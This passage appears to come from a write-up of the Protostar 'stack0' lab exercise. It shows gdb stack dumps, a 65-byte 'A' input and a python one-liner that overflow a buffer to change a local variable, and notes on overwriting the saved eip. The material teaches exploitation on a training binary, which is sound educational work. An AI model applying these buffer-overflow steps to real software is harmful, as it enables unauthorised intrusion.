 ```
(gdb) r
Starting program: /opt/protostar/bin/stack0
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 1, main (argc=1, argv=0xbffff854) at stack0/stack0.c:13
13      stack0/stack0.c: No such file or directory.
        in stack0/stack0.c
(gdb) x/24wx $esp
0xbffff740:     0xbffff75c      0x00000001      0xb7fff8f8      0xb7f0186e
0xbffff750:     0xb7fd7ff4      0xb7ec6165      0xbffff768      0x41414141
0xbffff760:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff770:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff780:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff790:     0x41414141      0x41414141      0x41414141      0x00000041
(gdb) c
Continuing.
you have changed the 'modified' variable

Program exited with code 051.
```

## Exploit

```bash
user@protostar:/opt/protostar/bin$ ./stack0
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
you have changed the 'modified' variable
```

```bash
user@protostar:/opt/protostar/bin$ echo $(python -c 'print "A"*65') | ./stack0
you have changed the 'modified' variable
```

## Exploration

It is possible to overwrite the `eip` as well to return to the target statement.

This is pointless since we will fulfil the objective of changing the `modified` variable in the process of overwriting `eip`.

We can change the objective to return to `0x08048427` instead to make it print the failure message as well.

```
(gdb) b *0x08048411
Breakpoint 1 at 0x8048411: file stack0/stack0.c, line 13.
(gdb) r
Starting program: /opt/protostar/bin/stack0
AAAAAAAA

Breakpoint 1, main (argc=1, argv=0xbffff854) at stack0/stack0.c:13
13      stack0/stack0.c: No such file or directory.
        in stack0/stack0.c
(gdb) info frame
Stack level 0, frame at 0xbffff7b0:
 eip = 0x8048411 in main (stack0/stack0.c:13); saved eip 0xb7eadc76
 source language c.
 Arglist at 0xbffff7a8, args: argc=1, argv=0xbffff854
 Locals at 0xbffff7a8, Previous frame's sp is 0xbffff7b0
 Saved registers:
  ebp at 0xbffff7a8, eip at 0xbffff7ac
```
